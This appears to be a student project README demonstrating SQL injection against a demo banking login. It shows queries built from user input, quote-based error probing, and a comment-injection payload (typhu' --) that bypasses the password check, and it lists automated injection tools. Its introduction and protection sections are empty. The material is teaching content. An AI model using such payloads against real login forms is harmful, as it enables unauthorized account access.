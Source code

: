 <p align="center">
  <img src=".github/tittle.svg?sanitize=true" />
</p>

## Members:
- Tran Quang
- Nguyen Hoang Dinh Quy
- Than Hai Nhat Minh
- Nguyen Ty Phu

## Introductions

### What is the SQL Injection?

### How does it effect?

## Demo Attacks

### Log in

```
user: quang
password: demo
```
Log output consule: 
```
>> SELECT user
>>    ,checking
>>    ,savings
>> FROM accounts
>> WHERE "user" = 'typhu' AND "password" = 'demo' LIMIT 1;
```

### Try with the other user

Try with any password testing
```
user: typhu
password: demo
```

### Try with detect error

```
user: typhu
password: demo'
```
### Analysis log output

```sql
SELECT user
    ,checking
    ,savings
FROM accounts
WHERE "user" = 'typhu' AND "password" = 'demo'' LIMIT 1;
```

### Try with detect error

```
user: typhu'
password: demo
```
```sql
SELECT user
    ,checking
    ,savings
FROM accounts
WHERE "user" = 'typhu'' AND "password" = 'demo' LIMIT 1;
```
Add comment
```sql
WHERE "user" = 'typhu' --' AND "password" = 'demo' LIMIT 1;
```

### Hacking Tools

<p align="center">
  <img src=".github/sqli.png?sanitize=true" />
</p>

- [SQLMap](https://github.com/sqlmapproject/sqlmap) : Automatic SQL Injection And Database Takeover Tool
- [jSQL Injection](https://www.kitploit.com/2017/08/sqlmap-v118-automatic-sql-injection-and.html) : Java Tool For Automatic SQL Database Injection
- [BBQSQL](https://www.kitploit.com/2016/10/bbqsql-blind-sql-injection-exploitation.html) : A Blind SQL Injection Exploitation Tool
- [NoSQLMap](https://www.kitploit.com/2016/02/nosqlmap-v06-automated-nosql-database.html) : Automated NoSQL Database Pwnage

### How to protect your database from SQL Injection
